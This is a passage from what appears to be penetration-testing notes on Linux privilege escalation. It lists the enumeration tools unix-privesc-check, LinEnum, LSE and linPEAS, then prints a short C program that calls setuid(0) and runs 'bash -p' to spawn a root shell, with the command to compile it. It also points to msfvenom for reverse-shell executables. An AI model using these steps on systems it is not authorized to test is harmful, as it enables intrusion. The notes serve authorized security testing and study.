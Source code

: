 ```
./unix-privesc-check
```

Speed Check:

```
./unix-privesc-check standard > filename.txt
```

### LinEnum

{% embed url="https://github.com/rebootuser/LinEnum" %}

### **LSE**

{% embed url="https://github.com/diego-treitos/linux-smart-enumeration" %}

### linPEAS

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS" %}

## Spawning Root Shells

This is used in situations where commands can be executed as root. We can create our own executable and execute it as root.

### C Executable

There may be instances where some root process executes another process that you can control. Knowing this, we can create our own executable:

```c
int main() {
    setuid(0);
    system("/bin/bash -p");
}
```

Compile the code:

```bash
gcc -o <name> <filename.c>
```

### Reverse Shells

Alternatively, if a reverse shell is preferred, msfvenom can be used to generate an executable (.elf) file:

{% embed url="https://wixnic.gitbook.io/hacknotes/shells/msfvenom" %}

Otherwise, you may manually add shells to a file:

{% embed url="https://wixnic.gitbook.io/hacknotes/shells/unix-linux-shells" %}

## System Information
